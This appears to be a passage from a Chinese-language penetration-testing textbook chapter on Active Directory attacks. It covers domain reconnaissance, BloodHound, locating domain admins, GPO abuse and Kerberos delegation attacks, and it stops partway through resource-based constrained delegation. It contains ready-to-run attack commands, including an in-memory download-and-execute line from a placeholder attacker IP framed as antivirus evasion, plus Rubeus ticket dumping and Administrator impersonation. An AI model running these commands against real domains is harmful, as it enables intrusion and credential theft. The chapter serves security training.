







# 第55章 域渗透常用攻击

> **难度等级：🟠 高等级**
>
> **预计学习时间：240分钟**
>
> **本章看点：域内信息收集、BloodHound、域管定位、GPO攻击、委派攻击、DCSync、DCShadow、NTLM Relay、Zerologon、PrintNightmare、认证胁迫、AD CS、GPP密码、AdminSDHolder、5个实战案例**

::: tip 说明
上一章我们学习了Kerberos协议
及其相关的各种攻击方法。

这一章我们来学习
**域渗透中最常用的攻击手段**。

域渗透不是只有Kerberos攻击，
还有很多其他非常重要的攻击方法，
比如：

- 怎么收集域内信息？
- 怎么找到域管理员？
- 怎么利用组策略提权？
- 什么是委派攻击？
- 什么是DCSync？
- 什么是NTLM Relay？
- 有哪些经典的域控漏洞？

这些都是域渗透中
必须掌握的技能。

这一章内容非常多，
也非常重要，
是域渗透的核心内容。

建议大家一边学一边动手实验，
这样才能真正掌握。

准备好了吗？
开始！
:::

---

## 55.1 域内信息收集

::: tip 为什么要做域内信息收集？
拿到一台域内机器的权限后，
第一步要做的就是**信息收集**。

你需要知道：
- 这台机器在哪个域？
- 域里有多少用户？
- 有多少台机器？
- 域控是哪台？
- 有哪些组？
- 有哪些共享？

信息收集得越全面，
后面的攻击路径就越多。
:::

### 55.1.1 基础信息收集命令

先从最简单的命令开始，
这些都是Windows自带的，
不需要上传任何工具。

```cmd
:: 查看当前域名
echo %userdomain%

:: 查看域控
nltest /dsgetdc:corp.com

:: 查看域内所有用户
net user /domain

:: 查看域内所有组
net group /domain

:: 查看域管理员组的成员
net group "Domain Admins" /domain

:: 查看域内所有计算机
net group "Domain Computers" /domain
:: 或者
net view /domain

:: 查看当前域的信任关系
nltest /domain_trusts

:: 查看当前用户信息
whoami /all

:: 查看登录的域用户
net user %username% /domain
```

::: warning 注意
`net user /domain` 命令
默认会输出域内所有用户，
但如果域很大，
可能会被截断或者很慢。

在大域环境中，
建议使用PowerView等工具。
:::

### 55.1.2 PowerView工具使用

PowerView是PowerSploit工具集中的
一个模块，专门用来做域内信息收集。

**下载地址：**
https://github.com/PowerShellMafia/PowerSploit

**基本使用方法：**

```powershell
# 导入PowerView模块
Import-Module .\PowerView.ps1

# 或者直接下载到内存执行（绕过杀软）
IEX (New-Object Net.WebClient).DownloadString("http://攻击者IP/PowerView.ps1")
```

**常用命令：**

```powershell
# 获取当前域信息
Get-NetDomain

# 获取指定域的信息
Get-NetDomain -Domain corp.com

# 获取域控信息
Get-NetDomainController

# 获取所有域用户
Get-NetUser

# 获取指定用户的详细信息
Get-NetUser -UserName administrator

# 获取所有域计算机
Get-NetComputer

# 获取所有域组
Get-NetGroup

# 获取组成员
Get-NetGroupMember -GroupName "Domain Admins"

# 获取所有OU
Get-NetOU

# 获取所有GPO
Get-NetGPO

# 获取登录到某台机器的用户
Get-NetLoggedon -ComputerName web01

# 获取某台机器的会话
Get-NetSession -ComputerName web01

# 获取所有SPN
Get-NetUser -SPN

# 获取所有委派
Get-NetUser -TrustedToAuth

# 查找没有预认证的用户（AS-REP Roasting）
Get-DomainUser -PreauthNotRequired
```

### 55.1.3 ADModule使用

ADModule是微软官方的
Active Directory PowerShell模块，
功能非常强大。

**安装方法：**
- Windows Server: 安装"Active Directory模块 for Windows PowerShell"功能
- Windows 10/11: 安装RSAT工具

```powershell
# 导入AD模块
Import-Module ActiveDirectory

# 获取所有域用户
Get-ADUser -Filter * -Properties *

# 获取指定用户信息
Get-ADUser administrator -Properties *

# 获取所有域计算机
Get-ADComputer -Filter * -Properties *

# 获取所有组
Get-ADGroup -Filter *

# 获取组成员
Get-ADGroupMember "Domain Admins" -Recursive

# 获取所有OU
Get-ADOrganizationalUnit -Filter *

# 获取所有GPO
Get-GPO -All

# 获取域控信息
Get-ADDomainController -Filter *

# 获取域信息
Get-ADDomain

# 获取林信息
Get-ADForest
```

### 55.1.4 其他信息收集工具

| 工具名 | 说明 | 特点 |
|--------|------|------|
| SharpView | PowerView的C#版本 | 免杀效果好 |
| ADRecon | AD信息收集工具 | 输出详细报告 |
| BloodHound | 可视化分析工具 | 攻击路径分析 |
| ldapdomaindump | LDAP信息导出 | 输出HTML报告 |
| Impacket | Python工具集 | 远程信息收集 |

**ldapdomaindump使用示例：**

```bash
# 安装
pip3 install ldapdomaindump

# 使用
ldapdomaindump -u corp.com\\user1 -p Password123 10.0.0.1

# 会生成三个文件：
# domain_groups.html - 组信息
# domain_users.html - 用户信息
# domain_computers.html - 计算机信息
```

**图55-1 域内信息收集工具体系与收集内容图**



---

## 55.2 BloodHound使用详解

::: tip 什么是BloodHound？
BloodHound是一款**可视化的域内攻击路径分析工具**。

它可以帮你：
- 快速找到从当前用户到域管理员的路径
- 发现域内的各种安全配置问题
- 可视化展示域内的关系图

一句话：
**有了BloodHound，域渗透就像开了透视挂。**
:::

### 55.2.1 BloodHound工作原理

BloodHound的工作分为两步：

**第一步：收集数据**
- 在目标机器上运行SharpHound
- 收集域内的用户、计算机、组、ACL、会话等信息
- 输出一个或多个JSON文件

**第二步：分析数据**
- 将JSON文件导入BloodHound
- BloodHound使用图数据库（Neo4j）存储数据
- 通过界面查询和分析攻击路径

### 55.2.2 SharpHound数据收集

SharpHound是BloodHound的数据收集端，
用C#编写。

**下载地址：**
https://github.com/BloodHoundAD/BloodHound

**常用命令：**

```cmd
:: 收集所有信息（最常用）
SharpHound.exe -c All

:: 只收集指定类型
SharpHound.exe -c Group,LocalAdmin,Session

:: 指定输出目录
SharpHound.exe -c All --outputdirectory C:\temp

:: 指定域名
SharpHound.exe -c All -d corp.com

::  stealth模式（更慢但更隐蔽）
SharpHound.exe -c All --stealth

:: 仅收集指定OU
SharpHound.exe -c All --searchbase "OU=IT,DC=corp,DC=com"
```

::: tip 收集类型说明
- `Default` - 默认收集组、本地管理员、会话等
- `Group` - 收集组信息和组成员关系
- `LocalAdmin` - 收集本地管理员信息
- `Session` - 收集会话信息
- `LoggedOn` - 收集登录用户
- `Trusts` - 收集信任关系
- `ACL` - 收集ACL信息
- `SPNTargets` - 收集SPN目标
- `Container` - 收集容器信息
- `DCOM` - 收集DCOM权限
- `RDP` - 收集RDP权限
- `All` - 收集所有信息
:::

**PowerShell版本（SharpHound.ps1）：**

```powershell
# 导入模块
Import-Module .\SharpHound.ps1

# 收集所有信息
Invoke-BloodHound -CollectionMethod All

# 其他参数和exe版本类似
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp
```

### 55.2.3 BloodHound界面使用

**安装Neo4j数据库：**

```bash
# Docker方式（推荐）
docker run -p 7474:7474 -p 7687:7687 -e NEO4J_AUTH=neo4j/bloodhound neo4j:4.4
```

**安装BloodHound：**

```bash
# 从GitHub下载最新版本
# 或者用npm安装
npm install -g bloodhound
```

**使用步骤：**

1. 启动Neo4j数据库
2. 启动BloodHound
3. 连接到Neo4j（默认地址 bolt://localhost:7687）
4. 上传SharpHound收集的JSON文件
5. 开始分析

**常用查询（Pre-built Queries）：**

BloodHound内置了很多实用的查询：

- **Find Shortest Paths to Domain Admins** - 找到到域管理员的最短路径
- **Find all Domain Admins** - 列出所有域管理员
- **Find Computers where Domain Users are Local Admin** - 域用户是本地管理员的机器
- **Find Kerberoastable Users** - 可Kerberoast的用户
- **Find AS-REP Roastable Users** - 可AS-REP Roast的用户
- **Find Workstations where Domain Users can RDP** - 域用户可RDP的工作站
- **Find Principals with DCSync Rights** - 有DCSync权限的主体
- **Map Domain Trusts** - 映射域信任关系

### 55.2.4 BloodHound进阶技巧

**自定义Cypher查询：**

BloodHound底层用的是Neo4j图数据库，
你可以直接写Cypher查询。

```cypher
// 查找从特定用户到域管的路径
MATCH p=shortestPath(
  (u:User {name: "USER1@CORP.COM"})-[*1..]->(g:Group {name: "DOMAIN ADMINS@CORP.COM"})
)
RETURN p

// 查找有GenericAll权限的用户
MATCH (u:User)-[:GenericAll]->(t)
RETURN u.name, t.name, t.objectid

// 查找可以DCSync的账户
MATCH (u:User {dcsync: true})
RETURN u.name

// 查找非约束委派的机器
MATCH (c:Computer {unconstraineddelegation: true})
RETURN c.name
```

**图55-2 BloodHound工作流程与常用查询图**

```mermaid
flowchart LR
    subgraph COLLECT["第一步 数据收集"]
        SH["SharpHound<br/>在目标机器运行<br/>SharpHound.exe -c All"]
        SH --> JSON["输出JSON文件<br/>用户/计算机/组<br/>ACL/会话/信任"]
    end
    subgraph ANALYZE["第二步 数据分析"]
        JSON --> NEO["导入BloodHound<br/>Neo4j图数据库存储"]
        NEO --> GUI["可视化界面<br/>节点+边展示关系"]
    end
    subgraph QUERY["第三步 常用查询 Pre-built"]
        Q1["找最短路径到域管理员<br/>Find Shortest Paths to DA"]
        Q2["找可Kerberoast的用户"]
        Q3["找AS-REP Roastable用户"]
        Q4["找有DCSync权限的主体"]
        Q5["找域用户是本地管理员的机器"]
        Q6["映射域信任关系"]
    end
    GUI --> QUERY
    QUERY --> PATH["攻击路径示例:<br/>user1 → 对IT组有Write权限<br/>→ IT组可编辑某GPO<br/>→ GPO链接到服务器OU<br/>→ 服务器有域管登录<br/>→ 抓域管凭据"]
```



---

## 55.3 域管理员定位

::: tip 为什么要定位域管理员？
在域渗透中，
找到**域管理员当前登录在哪台机器上**
非常重要。

因为如果你能控制
域管理员登录过的机器，
就可以通过哈希传递、
令牌窃取等方式
获得域管理员权限。
:::

### 55.3.1 定位方法总览

```
域管理员定位方法
├── 方法一：查询组内成员
│   ├── net group "Domain Admins" /domain
│   └── PowerView: Get-NetGroupMember
│
├── 方法二：查询登录会话
│   ├── net session /domain
│   ├── NetSess.exe
│   └── PowerView: Get-NetSession
│
├── 方法三：查询登录用户
│   ├── quser /server:机器名
│   ├── PSLoggedOn.exe
│   └── PowerView: Get-NetLoggedon
│
├── 方法四：扫描本地管理员
│   ├── CrackMapExec
│   └── PowerView: Find-LocalAdminAccess
│
└── 方法五：BloodHound
    └── Find Shortest Paths to Domain Admins
```

### 55.3.2 NetSess工具

NetSess是一个小工具，
可以查询远程机器的会话列表。

```cmd
:: 查看某台机器的会话
netsess.exe web01

:: 查看域控的会话
netsess.exe dc01

:: 批量查询（配合列表）
for /f %i in (computers.txt) do netsess.exe %i >> sessions.txt
```

### 55.3.3 PSLoggedOn工具

PSLoggedOn是Sysinternals工具集中的工具，
可以查看谁登录了某台机器。

```cmd
:: 查看某台机器的登录用户
psloggedon.exe \\web01

:: 查看本地登录用户
psloggedon.exe \\\\localhost

:: 只显示本地登录用户
psloggedon.exe -l \\\\web01
```

### 55.3.4 PowerView定位域管

```powershell
# 导入PowerView
IEX (New-Object Net.WebClient).DownloadString("http://攻击者IP/PowerView.ps1")

# 获取所有域管理员
$DomainAdmins = Get-NetGroupMember "Domain Admins" -Recursive | Select-Object -ExpandProperty MemberName

# 获取所有域计算机
$Computers = Get-NetComputer | Select-Object -ExpandProperty Name

# 遍历每台机器，检查域管是否登录
foreach ($Computer in $Computers) {
    $Sessions = Get-NetSession -ComputerName $Computer -ErrorAction SilentlyContinue
    foreach ($Session in $Sessions) {
        if ($DomainAdmins -contains $Session.UserName) {
            Write-Host "$($Session.UserName) 登录在 $Computer"
        }
    }
}
```

### 55.3.5 CrackMapExec定位

CrackMapExec（简称CME）
也可以用来定位域管理员。

```bash
# 扫描哪台机器上有域管理员登录
crackmapexec smb 192.168.1.0/24 -u user1 -p Password123 --loggedon-users

# 扫描本地管理员权限
crackmapexec smb 192.168.1.0/24 -u user1 -p Password123 --local-auth

# 查找域管理员登录的机器
crackmapexec smb 192.168.1.0/24 -u user1 -p Password123 --ntds drsuapi
```

---

## 55.4 组策略相关攻击

::: tip 什么是组策略？
组策略（Group Policy，简称GPO）
是活动目录中的一个重要功能。

管理员可以通过GPO
统一管理域内的计算机和用户，
比如：
- 设置密码策略
- 部署软件
- 设置登录脚本
- 配置防火墙规则
- 修改注册表
- 等等...

GPO的权限配置不当，
可能导致严重的安全问题。
:::

### 55.4.1 GPO基础

**GPO存储位置：**
- 组策略容器（GPC）：存储在AD数据库中
- 组策略模板（GPT）：存储在SYSVOL共享中

路径：`\\corp.com\SYSVOL\corp.com\Policies\{GPO-GUID}\`

**GPO的结构：**
```
{GPO-GUID}/
├── Machine/
│   ├── Scripts/
│   │   ├── Startup/  - 启动脚本
│   │   └── Shutdown/ - 关机脚本
│   └── Preferences/  - 组策略首选项
└── User/
    ├── Scripts/
    │   ├── Logon/    - 登录脚本
    │   └── Logoff/   - 注销脚本
    └── Preferences/
```

### 55.4.2 GPO信息收集

```powershell
# PowerView获取所有GPO
Get-NetGPO

# 获取GPO的详细信息
Get-NetGPO -GPLink "OU=IT,DC=corp,DC=com"

# 获取GPO的权限
Get-NetGPO -Raw | Select-Object displayname, gpcfilesyspath

# ADModule获取GPO
Get-GPO -All

# 获取某OU链接的GPO
Get-GPInheritance -Target "OU=IT,DC=corp,DC=com"
```

### 55.4.3 GPO攻击方式

**方式一：修改已有GPO**

如果你对某个GPO有写权限，
可以修改它来执行代码。

```powershell
# 1. 查找你有写权限的GPO
Get-NetGPO | Where-Object {
    $_.nTSecurityDescriptor.DiscretionaryAcl | Where-Object {
        $_.AccessControlType -eq "Allow" -and
        $_.IdentityReference -eq "当前用户"
    }
}

# 2. 修改GPO添加启动脚本
# 可以直接修改SYSVOL中的脚本文件
# 或者用PowerGPO工具
```

**方式二：创建新GPO**

如果你有在OU上创建GPO的权限，
可以创建恶意GPO。

```powershell
# 创建新GPO
New-GPO -Name "MaliciousGPO"

# 链接到指定OU
New-GPLink -Name "MaliciousGPO" -Target "OU=IT,DC=corp,DC=com"

# 设置登录脚本
Set-GPRegistryValue -Name "MaliciousGPO" -Key "..."
```

**方式三：GPO组策略首选项密码（GPP）**

这个我们后面单独讲，
非常经典。

### 55.4.4 SharpGPOAbuse工具

SharpGPOAbuse是一个专门用来
滥用GPO权限的工具。

```powershell
# 添加立即任务（立即执行）
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author corp\Administrator --Command "cmd.exe" --Arguments "/c whoami > C:\temp\out.txt" --GPOName "TestGPO"

# 添加启动脚本
SharpGPOAbuse.exe --AddStartupScript --ScriptName startup.bat --ScriptContents "whoami > C:\temp\out.txt" --GPOName "TestGPO"

# 添加计划任务
SharpGPOAbuse.exe --AddScheduledTask --TaskName "Update" --Author corp\Administrator --Command "cmd.exe" --Arguments "/c calc.exe" --GPOName "TestGPO"

# 添加用户
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount user1 --GPOName "TestGPO"
```

::: warning 注意
GPO修改后不会立即生效。
默认情况下：
- 计算机策略每90分钟刷新一次
- 用户策略每90分钟刷新一次
- 域控每5分钟刷新一次

可以强制刷新：
```cmd
gpupdate /force
```
:::

---

## 55.5 委派攻击

::: tip 什么是委派？
委派（Delegation）是Kerberos中的一个功能。

简单来说，
委派就是**允许一个服务代表用户去访问另一个服务**。

举个例子：
用户访问Web服务器，
Web服务器需要访问数据库服务器
来获取用户的数据。
这时候Web服务器就需要
"代表用户"去访问数据库。

委派的配置如果不当，
就可能被攻击者利用。
:::

### 55.5.1 委派的三种类型

| 类型 | 全称 | 说明 | 风险 |
|------|------|------|------|
| 非约束委派 | Unconstrained Delegation | 可以代表用户访问任意服务 | 🔴 高 |
| 约束委派 | Constrained Delegation | 只能访问指定的服务 | 🟡 中 |
| 基于资源的约束委派 | Resource-Based Constrained Delegation | 由资源端控制谁可以委派 | 🟡 中 |

### 55.5.2 非约束委派攻击

**原理：**
如果一台机器配置了非约束委派，
当有用户（比如域管理员）
连接这台机器时，
这台机器会获得用户的TGT，
然后就可以用这个TGT
访问任意服务。

**查找非约束委派的机器：**

```powershell
# PowerView
Get-NetComputer -Unconstrained

# ADModule
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation
```

**攻击步骤：**

1. 找到配置了非约束委派的机器
2. 控制这台机器
3. 等待域管理员访问这台机器
4. 导出域管理员的TGT
5. 使用TGT访问任意服务

**使用Rubeus监控票据：**

```cmd
:: 监控票据
Rubeus.exe monitor /interval:5

:: 当有高权限用户票据时，导出
Rubeus.exe dump /luid:0x123456 /service:krbtgt
```

**利用打印机漏洞（SpoolSample）：**
可以让域控主动连接配置了非约束委派的机器，
从而获取域控的TGT。

```cmd
:: 让域控连接到配置了非约束委派的机器
SpoolSample.exe dc01 web01

:: 然后在web01上导出域控的票据
Rubeus.exe dump /service:krbtgt
```

### 55.5.3 约束委派攻击

**原理：**
如果一个账户（用户或计算机）
配置了约束委派，
可以代表用户访问指定的服务。

如果你控制了这个账户，
就可以伪造任意用户
去访问那些指定的服务。

**查找约束委派：**

```powershell
# PowerView
Get-NetUser -TrustedToAuth
Get-NetComputer -TrustedToAuth

# ADModule
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
Get-ADComputer -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

**攻击步骤（以计算机账户为例）：**

1. 找到配置了约束委派的机器
2. 获取该机器的NTLM哈希
3. 使用S4U2Self和S4U2Proxy伪造服务票据

**使用Rubeus进行约束委派攻击：**

```cmd
:: S4U攻击（假设web01配置了到CIFS/dc01的约束委派）
Rubeus.exe s4u /user:web01$ /rc4:<web01的NTLM哈希> /impersonateuser:Administrator /msdsspn:CIFS/dc01.corp.com /ptt
```

**参数说明：**
- `/user` - 配置了约束委派的账户
- `/rc4` - 该账户的NTLM哈希
- `/impersonateuser` - 要模拟的用户
- `/msdsspn` - 要访问的服务
- `/ptt` - 直接注入票据

### 55.5.4 基于资源的约束委派

**原理：**
基于资源的约束委派（RBCD）
是由资源端（被访问的服务）
来控制谁可以委派到它。

如果我们对一台机器有写权限，
可以修改它的
`msDS-AllowedToActOnBehalfOfOtherIdentity`
属性，
让我们控制的账户可以委派到它。

**攻击步骤：**

1. 控制一个机器账户（或者创建一个）
2. 修改目标机器的属性，允许该账户委派
3. 使用S4U2Self和S4U2Proxy获取服务票据

**具体操作：**

```powershell
# 1. 创建一个机器账户（需要域用户权限）
# 使用Powermad
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString "Password123" -AsPlainText -Force)

# 2. 获取新建机器的SID
$ComputerSid = Get-DomainComputer fake01 -Properties objectsid | Select-Object -ExpandProperty objectsid

# 3. 构建SDDL
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
